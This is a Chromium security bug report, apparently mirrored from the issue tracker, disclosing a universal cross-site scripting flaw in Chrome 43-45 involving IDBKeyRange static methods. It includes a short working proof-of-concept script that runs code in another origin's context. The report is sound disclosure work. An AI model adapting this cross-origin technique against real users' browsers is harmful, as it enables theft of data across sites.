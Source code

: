 # Universal XSS using IDBKeyRange static methods

> Reported by <mailto:marius.mlynski@gmail.com>, May 31 2015

## VULNERABILITY DETAILS

Calling an object-returning static method with a cross-origin thing passed as |this| yields an object wrapped in the cross-origin scope. This is because FunctionCallbackInfo ends up with a cross-origin holder, and the holder acts as a creation context for the return value in blink::ScriptWrappable::wrap.

## VERSION

Chrome 43.0.2357.81 (Release)
Chrome 44.0.2403.18 (Beta)
Chrome 45.0.2414.0 (Dev)
Chromium 45.0.2419.0 compiled today

## REPRODUCTION CASE

```html
<script>
var i = document.documentElement.appendChild(document.createElement('iframe'));
i.onload = function() {
  IDBKeyRange.only.call(frames[0],0).constructor.constructor('alert(location)')();
}
i.src = 'data:text/html,victim';
</script>
```

Link: https://bugs.chromium.org/p/chromium/issues/detail?id=494640
